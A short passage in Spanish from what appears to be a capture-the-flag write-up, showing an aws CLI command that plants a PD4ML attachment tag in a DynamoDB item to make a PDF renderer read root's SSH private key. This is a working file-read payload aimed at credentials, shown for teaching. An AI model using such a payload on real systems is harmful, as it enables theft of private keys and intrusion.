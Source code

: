 ![paste](./images/30.jpeg)

Y haciendo el mismo procedimiento podemos apuntar a archivos de la maquina, y si ¿apuntamos a un archivo de root para saber si es este el que esta ejecutando el servicio?

```bash
aws --endpoint-url=http://localhost:4566 dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"},"data":{"S":"<html><pd4ml:attachment src='\''file:///root/.ssh/id_rsa'\'' description='\''test'\'' icon='\''Paperclip'\''/></html>"}}'
```

Bingo!!!!!!!

![paste](./images/31.jpeg)
